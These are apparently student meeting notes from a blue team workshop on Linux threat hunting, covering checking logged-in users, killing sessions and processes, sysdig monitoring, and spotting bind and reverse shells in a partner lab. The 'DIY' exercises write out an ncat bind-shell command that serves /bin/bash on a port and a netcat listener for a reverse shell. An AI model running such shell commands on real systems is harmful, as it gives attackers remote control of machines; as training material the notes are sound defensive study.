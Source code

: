 # February 25th notes from Blue team meeting

## Intro to Linux Threat Hunting 
*by Alex Christy*

### Getting started
1. SSH into JumpBox
`ssh -i ./path/to/key ubuntu@{IP_ADDRESS}`
2. Nmap your subnet
`sudo nmap -p22 -T5 10.167.X.0/24 (X is the number you were assigned)`
3. Choose a machine
4. Tell your partner which IP address you choose
5. SSH into your machine
`ssh -i ./path/to/key ubuntu@{YOUR_MACHINE_IP}`
6. Standby…

### Who is logged in 
command: `who -u`
works to show accounts logged in through normal channels but will not work for reverse shells, bind shells, etc.

1. __Find out what terminal you have__
`tty`
2. who is logged in?
`who -u`
3. Kill the person's terminal
`sudo pkill -9 -t pts/1(SESSION_NUMBER)` (example the pts will be different depending on who u wanna kick)

### What commands are people running?
`This can be useful to differentiate normal and malicious users
Does not work on all Linux distributions
__Sysdig setup__
`sudo apt update && sudo apt install sys`
__Spy on Users:__
`sudo sysdig -c spy_users`

### What is PID?
PID (Process ID) is a unique ID for each running process on a Linux system
__Info Tidbits:__
* PID 1 is the startup process. Parent for all processes.
* Assigned sequentially to new processes
* PIDs are recycled as processes are killed
__List running processes:__ (There are alot of outputs_)
`ps -auxff`

![Finding Malicious Users](/assets/img/Finding-Malicious_Users.png)

![Find malicious processes pt 2](/assets/img/Finding-Malicious-User2.png)

### Kill malicious (or any process)
* Kill by PID: `sudo kill -9 2644` (this is because currently ncat has a PID of 2644)
`sudo pkill -9 ncat`

### DIY: Super secret spy
1. Red: SSH in your partner's machine
`ssh -i ./path/to/key ubuntu@{IP_ADDRESS}`
2. Red: Install ncat
`sudo apt update && sudo apt install -y ncat`
3. Red: Run ncat command with random port number
`ncat -lvnp {YOUR_PORT_NUMBER} -e /bin/bash`

### Bind Shells
Shell is the program that interprets the commands you type (example sh bash zsh)
__Bind shell:__ A shell bound to a port on a machine
A bind shell waits for a connection to execute commands remotely
![Discover-Bind-Shells](/assets/img/Discover-Bind-Shells.png)

### Reverse shells
* Like a bind shell but does not listen on system. Does not show up in port listing: sudo ss -tulpn
Reaches back to the attacker
Can be created with many languages: Python, bash, sh, ruby…
Language/interpreter must be on machine for it to work
Create your own reverse shells: https://www.revshells.com/

![Python-Reverse-Shell](/assets/img/Python-Reverse-Shell.png)

### DIY: Reverse Shell
1. Red: SSH in your partner's machine
`ssh -i ./path/to/key ubuntu@{IP_ADDRESS} `
2. Red: Create a bash -i reverse shell
https://www.revshells.com/
3. Red: Create a listener on your machine (new terminal)
`nc -lvnp {YOUR_REVERSE_SHELL_PORT}`
4.Red: Execute reverse shell command

### Notes (I noticed)
`grep -C 2 ...``
the -C adds context, so it will show 2 lines above and below
"Ncat" is the swiss army knife of networking
Good cybersecurity rely on the behavior not hte name so they can change the name of :ncat" to something else

try to learn ports pretty well
start with locking down the system